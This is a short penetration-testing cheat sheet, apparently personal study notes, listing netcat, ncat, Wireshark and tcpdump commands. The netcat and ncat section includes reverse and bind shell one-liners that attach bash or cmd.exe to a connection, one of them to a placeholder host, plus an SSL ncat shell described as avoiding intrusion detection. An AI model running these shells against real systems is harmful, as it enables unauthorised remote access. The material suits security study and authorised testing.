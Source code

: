         [https://joncraton.org/blog/46/netcat-for-windows/](https://joncraton.org/blog/46/netcat-for-windows/)
  - Connect to a POP3 mail server  
        `nc -nv $ip 110`
  - Listen on TCP/UDP port  
        `nc -nlvp 4444`
  - Connect to a netcat port  
        `nc -nv $ip 4444`
  - Send a file using netcat  
        `nc -nv $ip 4444 < /usr/share/windows-binaries/wget.exe`
  - Receive a file using netcat  
        `nc -nlvp 4444 > incoming.exe`
  - Some OSs (OpenBSD) will use nc.traditional rather than nc so watch out for that...
            whereis nc
            nc: /bin/nc.traditional /usr/share/man/man1/nc.1.gz
            /bin/nc.traditional -e /bin/bash 1.2.3.4 4444
     **There is also a possibility to upload the netcat to the target machine**
  - Create a reverse shell with Ncat using cmd.exe on Windows  
        `nc.exe -nlvp 4444 -e cmd.exe`
        or
        `nc.exe -nv <Remote IP> <Remote Port> -e cmd.exe`
  - Create a reverse shell with Ncat using bash on Linux  
        `nc -nv $ip 4444 -e /bin/bash`
  - Netcat for Banner Grabbing:
        `echo "" | nc -nv -w1 <IP Address> <Ports>`
- Ncat - Netcat for Nmap project which provides more security avoid IDS
  - Reverse shell from windows using cmd.exe using ssl  
        `ncat --exec cmd.exe --allow $ip -vnl 4444 --ssl`
  - Listen on port 4444 using ssl  
        `ncat -v $ip 4444 --ssl`
- Wireshark
  - Show only SMTP (port 25) and ICMP traffic:
        `tcp.port eq 25 or icmp`
  - Show only traffic in the LAN (192.168.x.x), between workstations and servers -- no Internet:
        `ip.src==192.168.0.0/16 and ip.dst==192.168.0.0/16`
  - Filter by a protocol ( e.g. SIP ) and filter out unwanted IPs:
        `ip.src != xxx.xxx.xxx.xxx && ip.dst != xxx.xxx.xxx.xxx && sip`
  - Some commands are equal
        `ip.addr == xxx.xxx.xxx.xxx`
         Equals
        `ip.src == xxx.xxx.xxx.xxx or ip.dst == xxx.xxx.xxx.xxx`
        `ip.addr != xxx.xxx.xxx.xxx`
         Equals
        `ip.src != xxx.xxx.xxx.xxx or ip.dst != xxx.xxx.xxx.xxx`
- Tcpdump
  - Display a pcap file  
       `tcpdump -r passwordz.pcap`
  - Display ips and filter and sort  
        `tcpdump -n -r passwordz.pcap | awk -F" " '{print $3}' | sort -u | head`
  - Grab a packet capture on port 80  
        `tcpdump tcp port 80 -w output.pcap -i eth0`
  - Check for ACK or PSH flag set in a TCP packet  
        `tcpdump -A -n 'tcp[13] = 24' -r passwordz.pcap`
